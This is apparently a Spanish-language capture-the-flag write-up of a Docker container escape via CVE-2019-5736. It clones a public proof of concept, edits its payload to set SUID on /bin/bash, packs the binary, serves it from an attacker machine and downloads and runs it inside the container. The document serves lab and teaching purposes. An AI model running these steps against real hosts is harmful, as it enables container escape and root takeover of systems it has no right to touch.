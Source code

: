 Investigamos el container webapp-dev01 con docker pero no encontramos nada

```bash
docker --version
#Output

Docker version 18.06.0-ce
``` 

Miramos si existe un exploit en la web 
```bash
 docker 18.06.0-ce exploit github 
```
 y encontramos algo en [CVE-2019-5736-POC](https://github.com/Frichetten/CVE-2019-5736-PoC)

```bash
cd exploits
git clone https://github.com/Frichetten/CVE-2019-5736-PoC
cd CVE-2019-5736-PoC

vi main.go
```

Aqui mirando el 
```bash
 main.go 
```
 vemos un comentario que dice:


```bash
 // This is the line of shell commands that will execute on host 
```


La modificamos para autorgar un derecho SUID a la bash

```bash
var payload = "#!/bin/bash \n chmod 4755 /bin/bash
```

Ahora lo compilamos y lo transferimos a la maquina victima

1. En la maquina de attackante buildeamos el exploit y preparamos el envio

    ```bash
    go build -ldflags "-s -w" main.go
    ls
    upx main
    mv main exploit
    python -m http.server 80
    ```

1. En la maquina victima nos conectamos al contenedor

    ```bash
    sudo /usr/bin/docker exec -it webapp-dev01 bash
    cd /tmp
    wget http://10.10.14.8/exploit
    ls
    chmod +x exploit
    ./exploit
    ```
